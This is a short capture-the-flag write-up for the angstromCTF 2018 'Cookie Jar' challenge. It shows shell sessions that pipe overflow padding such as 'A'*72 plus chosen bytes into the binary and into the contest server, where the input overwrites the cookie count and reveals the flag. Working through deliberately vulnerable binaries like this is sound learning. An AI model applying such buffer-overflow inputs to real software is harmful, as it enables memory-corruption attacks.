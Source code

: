 Cookie Jar
binary, 60

Note: Binary has been updated Try to break this Cookie Jar that was compiled from this source Once you've pwned the binary, test it out by connecting to nc shell.angstromctf.com 1234 to get the flag.

user@77b727a78098 /data/2018_angstromctf/binary/cookie_jar $ python -c 'print "A"*72' | ./cookiePublic64
Welcome to the Cookie Jar program!

In order to get the flag, you will need to have 100 cookies!

So, how many cookies are there in the cookie jar:
Sorry, you only had 0 cookies, try again!
user@77b727a78098 /data/2018_angstromctf/binary/cookie_jar $ python -c 'print "A"*73' | ./cookiePublic64
Welcome to the Cookie Jar program!

In order to get the flag, you will need to have 100 cookies!

So, how many cookies are there in the cookie jar:
Sorry, you only had 65 cookies, try again!
user@77b727a78098 /data/2018_angstromctf/binary/cookie_jar $ python -c 'print "A"*74' | ./cookiePublic64
Welcome to the Cookie Jar program!

In order to get the flag, you will need to have 100 cookies!

So, how many cookies are there in the cookie jar:
Congrats, you have 16705 cookies!
Here's your flag: ----------REDACTED----------


team332540@shell:/problems$ python -c 'print "A"*74' | nc shell.angstromctf.com 1234
Welcome to the Cookie Jar program!

In order to get the flag, you will need to have 100 cookies!

So, how many cookies are there in the cookie jar:
Congrats, you have 16705 cookies!
Here's your flag: actf{eat_cookies_get_buffer}


team332540@shell:/problems$ python -c 'print "A"*72 + "d"' | nc shell.angstromctf.com 1234
Welcome to the Cookie Jar program!

In order to get the flag, you will need to have 100 cookies!

So, how many cookies are there in the cookie jar:
Congrats, you have 100 cookies!
Here's your flag: actf{eat_cookies_get_buffer}


team332540@shell:/problems$ python -c 'print "A"*72 + "\x67\x12"' | nc shell.angstromctf.com 1234
Welcome to the Cookie Jar program!

In order to get the flag, you will need to have 100 cookies!

So, how many cookies are there in the cookie jar:
Congrats, you have 4711 cookies!
Here's your flag: actf{eat_cookies_get_buffer}
